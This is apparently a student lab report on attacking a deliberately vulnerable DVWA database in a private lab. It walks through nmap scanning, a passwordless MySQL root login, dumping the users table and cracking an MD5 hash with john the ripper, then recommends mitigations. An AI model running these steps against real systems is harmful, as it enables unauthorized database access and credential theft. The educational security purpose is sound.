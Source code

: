 # 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases

**👨‍💻 Author**: Raja Muhammad Haiqal Shah Bin Raja Muzairil Shah  
**📅 Date**: 25 April 2025  
**⏳ Time Allocation**: 3 Hours  
**📝 Total Marks**: 15  
**🧩 Lab Type**: Hands-On + Report + Demo/Debrief  

---

## 🧠 A. Lab Objectives

1. Identify and exploit cryptographic weaknesses in database authentication and password storage.
2. Perform offline hash cracking after discovering password hashes in a vulnerable database.
3. Investigate real-world cryptographic failures and propose secure solutions.
4. Document findings clearly in GitHub (Markdown) and present a short demo/debrief.

---

## 🛠️ Tools Used

- `Kali Linux` (OS)
- `nmap` (Service enumeration)  
- `mysql-client` (Database access)  
- `hashid` / `hash-identifier` (Hash detection)  
- `hashcat` / `john` (Hash cracking)  
- `wireshark` (Traffic analysis – optional)

---

## 🌐 IP Addresses

- **Attacker**: `192.168.157.142`  
- **Victim**: `192.168.157.137`  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.157.137 > nmap.txt

```
![nmap](screenshot/nmap_scan.png)

- Identified that **MySQL** was running on port **3306**.

**Attempting Connection:**

```bash
mysql -h 192.168.157.137 -u root --password=""
```

**Error Encountered:**
```vbnet
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```
### 🔍 What's actually going wrong?
By default, modern MySQL clients try to connect using SSL/TLS.
But:
- If the server is old (e.g. MySQL 5.5 or earlier), it might not support TLS properly.
- If SSL is not configured on the server, the client handshake will fail.
- If the client expects TLS 1.2+, and the server doesn't support it, you get a mismatch.

**Solution:**

```bash
mysql -h 192.168.157.137 -u root --password="" --ssl=0
```

![fix command](screenshot/fix_command.png)

✅ **Resolved**: TLS version mismatch between MySQL client and server.

> **Note**:  
> MySQL versions prior to 5.7.11 do not support `--ssl-mode`. Use `--ssl=0` to disable SSL.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
```

**Expected Output:**

![table dvwa](screenshot/table.png)

**Querying user data:**

```sql
SELECT * FROM users;
```

- Found usernames and MD5 password hashes.
- Selected user admin for cracking.

![users](screenshot/users.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ Absolutely — it violates basic secure authentication practices.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hash-identifier`:

```bash
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

- Detected as **MD5** hash.

![hash indentify](screenshot/hash_indentify.png)

> ⚠️ **Reflection**:  
> Why is MD5 considered insecure? 
> - It’s fast and unsalted, making it highly vulnerable to rainbow tables and brute-force attacks.



---

### 4. 🧨 Offline Hash Cracking

Used `john the ripper` to perform brute-force on the MD5 hash:

### 🧠 John is picky about formats
John tries to guess the format from the structure of the hash. If it doesn’t recognize it, or the structure is too simple (like plain MD5), you must manually tell John what it is, using:

```bash
john --format=raw-md5 --wordlist=password.txt hash.txt

```

✅ **Result:**
```makefile
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![john](image.png)

**Cracked Password**: `password`

> This is one of the most common weak passwords — easily guessable and widely used.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Weakness Summary

| Area          | Issue                      |
|---------------|----------------------------|
| Authentication | Weak/missing passwords     |
| Hashing        | Unsalted MD5 hashes        |
| Transmission   | Unencrypted data in transit|


#### 🔧 Recommendations:

- **Authentication**: Enforce password complexity rules and use rate limiting (`fail2ban`, `CAPTCHA`).
- **Hashing**: Replace MD5 with bcrypt, scrypt, or Argon2.
- **Transmission**: Use **TLS/SSL** for all database connections.

#### 🕵️ Wireshark Observation:
Traffic captured showed unencrypted SQL queries and sensitive data in transit.

- run wireshark then open users from dvwa mysql table.

![wireshark](screenshot/wireshark.png)
---

## ✅ Conclusion

This lab exercise demonstrated the serious risks posed by outdated cryptographic practices in modern systems. Weak credentials, insecure hashing algorithms, and lack of encrypted communication can all be exploited.

To secure such systems:
- Enforce strict password and authentication policies.
- Use modern, slow, and salted hashing algorithms.
- Encrypt all traffic between clients and servers.

🔒 **Legacy systems should always be reviewed for cryptographic flaws.**